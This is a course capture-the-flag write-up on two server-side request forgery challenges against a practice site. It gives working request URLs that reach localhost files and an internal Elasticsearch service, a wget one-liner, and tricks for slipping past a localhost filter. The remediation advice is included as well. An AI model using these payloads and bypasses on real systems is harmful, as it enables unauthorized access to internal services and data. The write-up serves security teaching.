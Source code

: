 ```yaml
---
layout: post
title: COMP6843 - Extended Break 4
date: 2018-05-20
categories: ['writeup']
---
```

# Server Side Request Forgery: Local Files
> Target: https://ssrfsquared.ns.agency/  

___
### Proof of Concept

1. Intercept the requests made between the front and back end of the site during the initial load
2. Notice that there is a request for `https://ssrfsquared.ns.agency/static?r=http%3A%2F%2F127.0.0.1%3A9447%2Fstyles.css`, which can also be confirmed by viewing the source of the page
3. This becomes an entry point for an attacker to probe the internal network
4. Some files return the same content when accessed externally or internally such as `index.html` or `styles.css`
5. When viewing `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/styles.css` there is a hint that something else is on the server
6. Logically we try `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag` and it gives us the flag  
   `(wget -qO- https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag)` 
```
 sectalks{i_wonder_what_else_is_running_locally}
 ```
Extra Info:  
- not sure why but `localhost` gives the message `big sorry, we broke localhost, try 127.0.0.1` but this can be circumvented by using the following: `127.0.0.1`, `0`, `Localhost` / `lOcAlHoSt` etc 

___
### Impact 
**P2 - High**

Attackers can access localhost and read files stored in the working directory of the application, which may contain data that is not meant for public viewing. In this case only static files are retrieved, but in a real world scenario an attacker may be able to find other files (eg. _.php_ files) which may lead to code execution. If combined with a directory traversal vulnerability, the attacker can also read any files in the entire filesystem with the right permissions.

___
### Remediation 

Avoid querying files directly through URL requests using localhost, or perform server-side validation on the URLs requested if it cannot be avoided. Any important files in the working directory should have their permissions set so that they are not viewable by the web application if not necessary _(Principal of Least Privilege)_.  
  
<div class="divider"></div>
# Server Side Request Forgery: Local Services
> Target: https://ssrfsquared.ns.agency/

### Proof of Concept

The search functionality of the site is powered by _Elastic Search_, which serves up different Phrack articles.
There is also a flag stored in the service somewhere, as searching for `FLAG` or `flag` would reveal
```
The flag is sectalks{REDACTED}
```
hinting that it should be accessed locally. 

1. By doing port enumeration via GET requests or simply by guessing common port numbers, we can find the service at  
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9200/`  
   <br/>
2. Utilizing the `_search` function we can search for the flag:  
   `https://ssrfsquared.ns.agency/static?r=http://0:9200/_search?q=sectalks`  returns :  
```
   {
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "failed": 0
  },
  "hits": {
    "total": 1,
    "max_score": 8.236906,
    "hits": [
      {
        "_index": "phrack",
        "_type": "article",
        "_id": "976",
        "_score": 8.236906,
        "_source": {
          "content": "The flag is sectalks{ssrf_for_fun_and_profit}",
          "title": "Flag",
          "author": "sy + grc",
          "issue": 0,
          "number": 0
        }
      }
    ]
  }
}
```  

3. The flag can also be found by enumerating all phrack articles   
    (Although not recommended)     
    `https://ssrfsquared.ns.agency/static?r=http://0:9200/phrack/article/976`  
 
<br/> 
Extra Info:  
- A lot of additional information can be found by executing any of the following commands 
```
http://0:9200/_cluster/settings
http://0:9200/_cluster/state
http://0:9200/phrack/article/14
http://0:9200/_tasks/
http://0:9200/_nodes?pretty=true
http://0:9200/_mapping
http://0:9200/_cat&?pretty=true
```

___


### Impact 
**P2 - High**

Attackers can enumerate port numbers and access services that are not public-facing, which might lead to the disclosure of data or unauthorized access to the internal network. This can allow for lateral movement or even worse privilege escalation, depending on the access controls within the internal network.

___
### Remediation

Similar to above, avoid sending requests to the internal network and to perform validation for requests if necessary. It is possible to implement a _Web Application Firewall_ (WAF) but determined attackers may be able to bypass the WAF with specially crafted URLs (eg. by double encoding or using multibyte characters)

Elastic Search by itself does not support authentication so another method of solving this problem is to never assume the internal network is safe, and to install proper access controls on any/all internal services. 

